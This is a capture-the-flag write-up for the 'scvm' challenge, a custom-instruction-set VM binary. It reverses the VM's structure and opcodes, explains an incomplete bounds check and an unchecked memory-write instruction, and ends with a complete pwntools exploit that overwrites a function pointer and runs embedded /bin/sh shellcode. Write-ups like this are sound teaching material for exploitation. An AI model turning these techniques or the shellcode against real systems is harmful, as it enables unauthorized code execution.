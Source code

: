 # scvm

> huwangbei2019 offline
> An easy VM challenge. Compared with the system-level virtual machine topic, this kind of topic can be understood as customizing a CPU instruction set, and realizing the emulator of the instruction set, not the virtualization at the hardware system level.

## Reverse
### VM Struct
It is really easy to know the struct of VM by analyzing the function as follows.

![](./index_files/c09dcfb1-07c7-4ee7-a2bb-260d11d3530b.png)

```
00000000 vm_t            struc ; (sizeof=0x20, mappedto_8)
00000000 reg_cnt         dd ?
00000004 fun_cnt         dd ?
00000008 regs            dq ?
00000010 funs            dq ?                    ; base 2
00000018 mem             dq ?
00000020 vm_t            ends
00000020
```

### Instruction Type
Instructions are four byte long and byte-aligned.
```
[fun_id] [val1] [val2] [val3]
```
```fun_id``` is used to know which function should be called.

![](./index_files/25a2abec-51fd-4f14-a4ea-8383954a99f7.png)

![](./index_files/a6b6ef5e-0dc4-4004-9779-ea45af95f053.png)

For example, instruction **add** use 3 vals and do the operation ```regs[val1] = regs[val2] + regs[val3]```.

![](./index_files/0e8ca81c-af65-45e0-b5d9-3fa11d80db64.png)

### Functions
10 functions are supported, but function **lea** is not useful.
```
exit: exit(0)
add: regs[val1] = regs[val2] + regs[val3]
sub: regs[val1] = regs[val2] - regs[val3]
mul: regs[val1] = regs[val2] * regs[val3]
div: regs[val1] = regs[val2] / regs[val3]
mod: regs[val1] = regs[val2] % regs[val3]
mov: regs[val1] = val2
print: print(reg[val3])
lea: regs[val1] = (uint32_t)(vm->mem + val2)
mov2mem: *(byte *)(vm->mem + val2) = regs[val1]
```

![](./index_files/e406537c-93e3-43f5-8f20-778b89c58aa6.png)

## Vulnerability
### Incomplete Checking
We can input **0x1000** bytes as **vm->mem**. However, the check will only check 0x800 bytes, so we can bypass this check if we input malicious instructions after 0x800 bytes.

![](./index_files/52293c95-f348-4cbf-a676-33b2488c01f1.png)

### self-modifying code
It is obvious that instruction ```mov2mem``` can modify ```*(byte *)(vm->mem + val2)``` to the value of ```regs[val1]```. But it does not check the value of val2.
So, we can modify the value of a bytes in memory (0 ~ 0xff) to the value we want, static check makes no sense.

![](./index_files/41c0ff76-e9a2-472f-829b-b7064c510bca.png)

## Exploit
It is enough to use **Incomplete Checking** for exploiting. Firstly, we input enough bytes (more than **0x800**) to bypass static checking.

```
payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)
```

### Leak
We cannot leak address of ```vm->mem``` by original **print** like operations, because we can only input once. So, we need to leak ```vm->mem``` to a reg of this vm and use the instructions integrated into this vm (```sub``` or ```add``` is great).

![](./index_files/c1f81533-e65a-4c70-9be3-74b9cf19bb40.png)

We the vm is inited, heap chunk for **regs** and **funcs** are allocated and then the struct **vm** is allocated, too. We can use **sub** to get the value of ```regs[0~0xff]```. So, leak is done.
We can also use this trick to modify the value of ```funs[i]``` to the one we like.
However, remember that the operand size is **32 bits**, not 64 bits. The arch of this executable elf is **amd64**. So, we need to modify the value of a function ptr twice (low 32 bits and high 32 bits).

![](./index_files/0a810f30-4086-4f80-9d02-06c30f63a002.png)

### Shellcode
It is easy that the memory allocated for vm is marked as **rwx**, so we just need to set ```rip``` to the address of our vm mem.

![](./index_files/3f9ecd99-4ca4-4a1b-960a-619406318e09.png)

### EXP
```
from pwn import *

local=1
pc='./scvm'
aslr=True
context.log_level=True
context.arch = "amd64"
context.word_size = 64
context.os = "linux"
context.endian = "little"

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p)
else:
    remote_addr=['172.16.9.45', 17730]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def gen_print(i, j=0, k=0):
    s = ""
    s += chr(7)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_mov(i, j, k = 0):
    s = ""
    s += chr(6)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_sub(i, j, k):
    s = ""
    s += chr(2)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_add(i, j, k):
    s = ""
    s += chr(1)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s



def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)

    payload+= gen_mov(0,0x80)
    payload+= gen_sub(2, 0x2e + 4, 2)
    payload+= gen_sub(3, 0x2f + 4, 3)

    for i in range(0, 0x12):
        payload+= gen_add(2, 0, 2)

    payload+= gen_sub(0x22, 0x22, 0x22)
    payload+= gen_sub(0x23, 0x23, 0x23)

    payload+= gen_sub(0x22, 0x2, 0x22)
    payload+= gen_sub(0x23, 0x3, 0x23)

    payload+= gen_print(0x10)

    payload = payload.ljust(0x900, "\x00")

    buf =  ""
    buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73"
    buf += "\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89"
    buf += "\xe6\xb0\x3b\x0f\x05"

    payload+= buf

    #payload = payload.ljust(0xa0, "\x00")
    #payload+= p32( 0x11DA - 0x10A0)

    sn(payload)
    p.interactive()

```